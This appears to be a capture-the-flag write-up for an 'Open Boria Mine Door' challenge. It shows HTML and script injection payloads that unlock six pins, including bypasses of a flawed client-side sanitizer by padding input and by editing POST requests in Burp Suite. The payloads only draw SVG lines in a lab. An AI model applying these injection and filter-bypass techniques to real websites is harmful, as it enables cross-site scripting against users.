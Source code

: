 ```yaml
---
sidebar_position: 5
---
```


# Open Boria Mine Door

> Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

****

# Open Boria Mine Doors

## Pin 1

Inspecting the HTML source code I saw a commented-out line containing the keyword to unlock Pin 1. Simply copy and paste the value and I was good to go.

```html
<!-- @&@&&W&&W&&&& -->
```

## Pin 2

The general theme is to inspect the HTML source to find hints to solve the various pins. For Pin 2 I saw a to-do note to filter out HTML from user input. 

```html
<!-- TODO: FILTER OUT HTML FROM USER INPUT -->
```

The assignment seems to be to draw lines between various connecting dots. The best way to do that is to simply draw a line using the SVG HTML tag, like this: 

```html
<svg height="170" width="200">
  <path d="M0 73 298 194" stroke-width="10" stroke="white"/>2
</svg>
```

## Pin 3

Advancing on this, I found a hint regarding Javascript in the HTML source

```html
<!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
```

Simply outputting the SVG tag using Javascript:


```html
<script>
document.write('
<svg height="170" width="200">
  <path d="M0 95 280 1" stroke-width="10" stroke="blue"/>2
</svg>
');
</script>
```

## Pin 4

For this pin, there are no commented-out hints, but I found a sanitation script present which simply replaces the first occurrences of each special char;

```html
<script>
    const sanitizeInput = () => {
        const input = document.querySelector('.inputTxt');
        const content = input.value;
        input.value = content
            .replace(/"/, '')
            .replace(/'/, '')
            .replace(/</, '')
            .replace(/>/, '');
    }
</script>
```

Padding the input with <\> simply unlocked the pin:

```html
<>
<svg height="170" width="200">
  <path d="M0 40 280 40" stroke-width="10" stroke="white"/>2
  <path d="M0 130 280 130" stroke-width="10" stroke="blue"/>2
</svg>
```

## Pin 5

The script from the last pin has been extended to now filtrate out every occurrence!

```html
<script>
        const sanitizeInput = () => {
            const input = document.querySelector('.inputTxt');
            const content = input.value;
            input.value = content
                .replace(/"/gi, '')
                .replace(/'/gi, '')
                .replace(/</gi, '')
                .replace(/>/gi, '');
        }
</script>
```

However, this happens only on the client side. If I pass the POST request through BurpSuite proxy, I can insert my trusty SVG tag:

```html
inputTxt=<script>document.write('<svg height="170" width="200"><path d="M35 170 210 90" stroke-width="10" stroke="blue"/><path d="M0 135 210 40" stroke-width="10" stroke="red"/></svg>');</script>
```

## Pin 6

No hint available here - but I am still in BurpSuite land manipulating the POST request directly:

```html
inputTxt=<svg height="170" width="200"><path d="M0 35 210 35" stroke-width="10" stroke="lime"/><path d="M0 75 240 115" stroke-width="10" stroke="red"/><path d="M0 115 150 170" stroke-width="10" stroke="blue"/></svg>
```

## All pins unlocked

![All pins solved](/img/web-ring/pins.png)